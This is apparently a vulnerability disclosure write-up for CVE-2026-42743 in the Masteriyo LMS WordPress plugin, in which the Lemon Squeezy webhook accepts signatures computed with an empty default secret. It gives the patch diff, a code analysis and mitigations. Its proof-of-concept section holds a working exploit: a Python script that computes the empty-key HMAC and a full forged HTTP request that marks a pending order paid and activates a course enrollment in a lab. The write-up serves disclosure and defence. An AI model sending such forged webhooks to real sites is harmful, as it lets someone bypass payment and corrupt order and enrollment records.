




# CVE-2026-42743 Masteriyo LMS Lemon Squeezy Webhook Forgery

# Overview

- Link: https://patchstack.com/database/wordpress/plugin/learning-management-system/vulnerability/wordpress-masteriyo-lms-plugin-2-1-8-broken-authentication-vulnerability
- CVE-2026-42743



# Patch

The bug was fixed in Masteriyo LMS `2.1.9`.

In the vulnerable version `2.1.8`, `handle_webhook()` retrieves the webhook secret from the settings and calculates the HMAC directly:

```php
$secret = Setting::get_webhook_secret();
$hash   = hash_hmac( 'sha256', $payload, $secret );
if ( ! hash_equals( $hash, $signature ) ) {
    throw new Exception( 'Invalid signature.', 403 );
}
```

The missing protection is that the code does not check whether the secret is empty:

```php
if ( empty( $secret ) ) {
    throw new Exception( 'Webhook secret is not configured.', 403 );
}
```

In version `2.1.9`, the plugin added logic to reject webhook requests when the webhook secret has not been configured:

```php
$secret = Setting::get_webhook_secret();

if ( empty( $secret ) ) {
    masteriyo_get_logger()->error( 'Webhook secret is not configured', array( 'source' => 'payment-lemon-squeezy' ) );
    throw new Exception( 'Webhook secret is not configured.', 403 );
}

$hash = hash_hmac( 'sha256', $payload, $secret );
if ( ! hash_equals( $hash, $signature ) ) {
    throw new Exception( 'Invalid signature.', 403 );
}
```

In addition, the patch also introduced an admin notice when Lemon Squeezy is enabled but `webhook_secret` has not been configured.

# Analysis

This vulnerability can be divided into three main parts: an empty default secret, an unauthenticated webhook endpoint, and an order completion flow that is triggered after the signature verification passes.

## Empty Default Secret

In `addons/lemon-squeezy-integration/Setting.php`, the default Lemon Squeezy configuration sets `webhook_secret` to an empty string:

```php
protected static $data = array(
    'unenrollment_status' => array( OrderStatus::REFUNDED ),
    'api_key'             => '',
    'store_id'            => '',
    'webhook_secret'      => '',
    'enable'              => false,
    'title'               => 'Lemon Squeezy',
    'description'         => 'Pay with Lemon Squeezy.',
);
```

The important part is:

```php
'webhook_secret' => '',
```

By itself, this is not necessarily a critical issue. A plugin may use an empty secret as the default value before the administrator configures the integration. However, the webhook handler must reject requests when the secret is empty.

## Unauthenticated Webhook Endpoint

In `addons/lemon-squeezy-integration/LemonSqueezyIntegrationAddon.php`, the webhook endpoint is registered for both authenticated and unauthenticated users:

```php
add_action( 'wp_ajax_masteriyo_lemon_squeezy_webhook', array( $this, 'handle_webhook' ) );
add_action( 'wp_ajax_nopriv_masteriyo_lemon_squeezy_webhook', array( $this, 'handle_webhook' ) );
```

The key part is:

```php
wp_ajax_nopriv_masteriyo_lemon_squeezy_webhook
```

The `nopriv` hook allows requests without a WordPress session to reach `handle_webhook()`. For a payment webhook, this design can be acceptable, but in that case the `X-Signature` header becomes the primary authentication mechanism.

## Signature Verification Flow

Inside `handle_webhook()`, the plugin retrieves the `X-Signature` header, the raw request body, and the event name:

```php
$signature = isset( $_SERVER['HTTP_X_SIGNATURE'] ) ? $_SERVER['HTTP_X_SIGNATURE'] : null;
$payload   = @file_get_contents( 'php://input' ); // phpcs:ignore
$event     = isset( $_SERVER['HTTP_X_EVENT_NAME'] ) ? $_SERVER['HTTP_X_EVENT_NAME'] : null;
```

The plugin then calculates the HMAC:

```php
$secret = Setting::get_webhook_secret();
$hash   = hash_hmac( 'sha256', $payload, $secret );
if ( ! hash_equals( $hash, $signature ) ) {
    masteriyo_get_logger()->error( 'Invalid signature', array( 'source' => 'payment-lemon-squeezy' ) );
    throw new Exception( 'Invalid signature.', 403 );
}
```

The vulnerable logic is located here:

```php
$secret = Setting::get_webhook_secret();
$hash   = hash_hmac( 'sha256', $payload, $secret );
```

The plugin retrieves the secret and immediately uses it without checking `empty( $secret )`. When `webhook_secret = ''`, PHP still calculates a valid HMAC:

```text
HMAC-SHA256(raw_body, "")
```

An attacker can calculate the same value on the client side. As a result, `hash_equals()` returns true if the attacker sends a correct `X-Signature` generated using an empty key.

In short, the issue is not caused by the HMAC algorithm itself. The issue is that the plugin uses HMAC with an empty secret.

## Order Completion Flow

After the signature verification passes, the event is processed as a valid webhook. For the `order_created` event, the code calls `handle_order_created()`:

```php
switch ( $event ) {
    case 'order_created':
        return $this->handle_order_created( $data, $order_id, $custom_data );
}
```

Inside `handle_order_created()`, if the payload contains `status = paid`, the order is marked as `COMPLETED`:

```php
$order_status = OrderStatus::PENDING;

if ( 'paid' === $data['status'] ) {
    $order_status = OrderStatus::COMPLETED;
} elseif ( 'refunded' === $data['status'] ) {
    $order_status = OrderStatus::REFUNDED;
} elseif ( 'failed' === $data['status'] ) {
    $order_status = OrderStatus::FAILED;
}

$order = masteriyo_get_order( $order_id );

if ( ! $order ) {
    return new WP_Error( 'order_not_found', __( 'Order not found.', 'learning-management-system' ), array( 'status' => 404 ) );
}

$order->set_status( $order_status );
$order->set_currency( $data['currency'] );
$order->set_transaction_id( $data['order_id'] );
$order->save();
```

The code that directly causes the impact is:

```php
if ( 'paid' === $data['status'] ) {
    $order_status = OrderStatus::COMPLETED;
}

$order->set_status( $order_status );
$order->save();
```

Because the attacker controls the payload and can bypass signature verification when the secret is empty, the fake `paid` value in the request body causes a pending order to become completed.

The plugin then continues to update the order metadata:

```php
$this->update_order_meta( $order_id, $data );
```

As a result, the order appears as if it was legitimately paid through Lemon Squeezy, including a transaction ID and related payment metadata.

# Exploit Flow

The complete exploitation flow is as follows:

```text
Unauthenticated request
        |
        v
wp_ajax_nopriv_masteriyo_lemon_squeezy_webhook
        |
        v
handle_webhook()
        |
        v
hash_hmac(raw_body, "")
        |
        v
signature matched
        |
        v
handle_order_created()
        |
        v
pending order -> completed order
        |
        v
inactive enrollment -> active enrollment
```

# PoC

Lab environment:

```text
Target: http://192.168.1.14/wp/
WordPress: 7.0
PHP: 8.3.6
Masteriyo LMS: 2.1.8
Add-on: lemon-squeezy-integration
Webhook secret: empty
Course ID: 42
Order ID: 43
User ID: 4
```

The user used to create the order is `bbstudent`.

The paid course/product in the lab is `Test Product`, corresponding to `course_id = 42`.

Initial state before exploitation:

```text
Order 43: pending
Enrollment user 4/course 42: inactive
```

Order before the exploit:



Database state before the exploit, proving that the order is still `pending` and the enrollment is still `inactive`:


Generate the signature using Python:

```python
import hashlib
import hmac

body = b'{"meta":{"custom_data":{"course_id":"42","order_id":"43","user_id":"4"}},"data":{"id":"ls_order_1337","type":"orders","attributes":{"total":4900,"status":"paid","currency":"USD","subtotal":4900,"test_mode":true,"total_usd":4900,"user_name":"BB Student","created_at":"2026-06-03T08:40:00Z","updated_at":"2026-06-03T08:40:00Z","user_email":"bbstudent@example.com","refunded":false,"refunded_at":null,"currency_rate":"1.0","subtotal_usd":4900,"total_formatted":"$49.00","first_order_item":{"product_id":"prod_1337","quantity":1,"product_name":"Test Product","variant_id":"var_1337","variant_name":"Default"}}}}'

print(hmac.new(b"", body, hashlib.sha256).hexdigest())
```

Generated signature:

```text
db79b27512481878006b4cc797fbc28966db74508b36f98b005f698c1b4161bb
```

Raw request sent using Burp Suite:

```http
POST /wp/wp-admin/admin-ajax.php?action=masteriyo_lemon_squeezy_webhook HTTP/1.1
Host: 192.168.1.14
User-Agent: Mozilla/5.0
Accept: */*
Content-Type: application/json
X-Event-Name: order_created
X-Signature: db79b27512481878006b4cc797fbc28966db74508b36f98b005f698c1b4161bb
Connection: close

{"meta":{"custom_data":{"course_id":"42","order_id":"43","user_id":"4"}},"data":{"id":"ls_order_1337","type":"orders","attributes":{"total":4900,"status":"paid","currency":"USD","subtotal":4900,"test_mode":true,"total_usd":4900,"user_name":"BB Student","created_at":"2026-06-03T08:40:00Z","updated_at":"2026-06-03T08:40:00Z","user_email":"bbstudent@example.com","refunded":false,"refunded_at":null,"currency_rate":"1.0","subtotal_usd":4900,"total_formatted":"$49.00","first_order_item":{"product_id":"prod_1337","quantity":1,"product_name":"Test Product","variant_id":"var_1337","variant_name":"Default"}}}}
```

Response:

```http
HTTP/1.1 200 OK
Content-Type: application/json; charset=UTF-8

{"success":true,"data":{"message":"Order created successfully.","order_id":43}}
```



Result after exploitation:

```text
Order 43: completed
Transaction ID: ls_order_1337
Enrollment user 4/course 42: active
```


Database state after exploitation, proving that the order contains forged transaction metadata and that the enrollment has become `active`:



# Impact

An attacker does not need WordPress administrator access and does not need to make a real Lemon Squeezy transaction. Under vulnerable conditions, an attacker can:

1. Complete an order that is still in the pending state.
2. Bypass payment for paid courses.
3. Activate course enrollment.
4. Write forged transaction metadata to the order.
5. Corrupt order, revenue, and student enrollment data.

The main impact is the compromise of payment integrity and unauthorized access to paid course content.

# Mitigation

Administrators should update Masteriyo LMS to `2.1.9` or a later version.

At the code level, the webhook handler should fail closed when the secret is empty:

```php
$secret = Setting::get_webhook_secret();

if ( empty( $secret ) ) {
    throw new Exception( 'Webhook secret is not configured.', 403 );
}

$hash = hash_hmac( 'sha256', $payload, $secret );

if ( ! hash_equals( $hash, $signature ) ) {
    throw new Exception( 'Invalid signature.', 403 );
}
```

In addition, even after a valid signature is confirmed, the plugin should still enforce business logic checks:

1. Whether the order belongs to the correct user.
2. Whether the course in the order matches the course in the payload.
3. Whether the amount and currency match the pending order.
4. Whether the transaction ID has already been used.
5. Whether the Lemon Squeezy product ID matches the course.

# References

- Masteriyo LMS: https://wordpress.org/plugins/learning-management-system/
- Lemon Squeezy webhook signing: https://docs.lemonsqueezy.com/help/webhooks/signing-requests
- WordPress plugin source tag 2.1.8: https://plugins.svn.wordpress.org/learning-management-system/tags/2.1.8/
- WordPress plugin source tag 2.1.9: https://plugins.svn.wordpress.org/learning-management-system/tags/2.1.9/
